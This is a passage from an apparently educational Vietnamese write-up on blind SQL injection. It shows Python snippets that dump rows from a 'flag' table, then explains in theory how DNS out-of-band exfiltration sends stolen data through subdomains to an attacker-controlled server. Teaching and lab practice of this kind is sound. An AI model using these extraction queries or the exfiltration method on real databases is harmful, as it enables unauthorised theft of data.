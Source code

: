 #### **Kết quả:**
```plaintext
Số cột trong bảng 'flag': 1
Tên cột 1: flag
```

---

### **4. Trích xuất giá trị từ bảng (Dumping Data)**

#### **Ý tưởng:**
1. Dùng **`COUNT(*)`** để xác định số dòng trong bảng.
2. Trích xuất từng giá trị từ bảng **`flag`** sử dụng truy vấn **`SELECT`**.

#### **Triển khai:**

**Xác định số lượng dòng trong bảng:**
```python
num_rows = dumpNumber("SELECT COUNT(*) FROM flag")
print(f"Số dòng trong bảng 'flag': {num_rows}")
```

**Trích xuất giá trị từng dòng:**
```python
for i in range(num_rows):
    flag_value_length = dumpNumber(f"SELECT LEN(flag) FROM flag ORDER BY flag OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY")
    flag_value = dumpString(f"SELECT flag FROM flag ORDER BY flag OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY", flag_value_length)
    print(f"Dòng {i+1} trong bảng 'flag': {flag_value}")
```

#### **Kết quả:**
```plaintext
Số dòng trong bảng 'flag': 1
Dòng 1 trong bảng 'flag': FLAG_VALUE
```

---

# 10. Khai thác dữ liệu qua DNS Out-of-Band (OOB) Injection

---

### **Lý thuyết**

- **DNS Exfiltration:** Cho phép trích xuất dữ liệu bằng cách làm máy chủ mục tiêu gửi yêu cầu DNS tới máy chủ DNS mà bạn kiểm soát. Dữ liệu được mã hóa và gắn vào tên miền phụ (subdomain).
- **Ứng dụng:** Hữu ích trong các tấn công **Blind SQL Injection** khi không có phản hồi trực tiếp hoặc thời gian chờ không đáng tin cậy.

#### **Quy trình chung:**
1. Dùng payload SQL để mã hóa dữ liệu thành dạng tuân thủ DNS (ví dụ: hex hoặc base64).
2. Tách dữ liệu thành các phần nhỏ hơn (<63 ký tự) để phù hợp với giới hạn của DNS.
3. Gửi các phần dữ liệu qua subdomain tới máy chủ DNS bạn kiểm soát.
4. Thu thập dữ liệu từ log của máy chủ DNS và giải mã.

---